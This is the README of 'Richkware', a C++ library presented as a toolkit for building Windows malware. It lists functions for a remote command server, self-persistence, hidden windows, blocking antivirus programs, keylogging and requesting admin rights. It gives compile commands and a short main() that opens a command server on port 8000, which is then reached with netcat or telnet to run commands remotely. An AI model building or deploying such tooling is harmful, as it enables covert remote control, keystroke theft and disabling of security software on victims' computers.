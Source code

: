# Richkware
Malware for Windows, written in C++.

##Description

It's a library of network and OS functions, that you can use to create a malware.
The compositions of these functions, according to different logics permit at the application 
to assume behaviors associable to the following types of malware:

- Virus
- Worms
- Bot
- Spyware
- Keylogger
- Scareware

##FUNCTIONS

###Network

- **StartServer**: start a server on an arbitrary port, to receive commands from the Internet, 
thus allowing to run commands or make changes to application state;
- **RawRequest**: send a request to a server;

###System

- **SaveValueReg** and **LoadValueReg**
- **SaveSession** and **LoadSession**: save the application state(encrypted) in the system;
- **IsAdmin** and **RequestAdminPrivileges**: check and require administrator privileges;
- **Persistance**: install itself permanently in the system.
- **StealthWindow**: hide applications;
- **OpenApp**: open arbitrary applications;
- **BlockApps** e **UnBlockApps**: block and Unblock applications (antivirus, ...);
- **Keylogger**

###Cryptography

- **EncryptDecrypt**

###Other

- **RandMouse**: move randomly the mouse cursor
- **Hibernation**: hibernate system;

##COMPILE

###Using g++ compiler (GCC, GNU Compiler Collection)

	g++ -O3 -c -o Richkware.o Richkware.cpp

	g++ -static-libgcc -static-libstdc++ -o Richkware.exe Richkware.o main.o -lws2_32 

###Using Microsoft C++ compiler (Visual Studio)
- C/C++ > Proprocessor > Proprocessor Definitions, add "\_CRT\_SECURE\_NO\_WARNINGS" 
- Linker > Input > Additional Dipendencies, add "Ws2_32.lib"


##REMOTELY COMMAND EXECUTION

Call function **StartServer** in the main, that starts server on port 8000.

	int main () {
		Richkware richkware ;
		richkware.StartServer ("8000");
		return 0;
	}

###Connect from Unix systems

In Unix systems, you can use **netcat**.

	nc <serverName> 8000

###Connect from Windows

In Windows, you can use **telnet**.

	telnet <serverName> 8000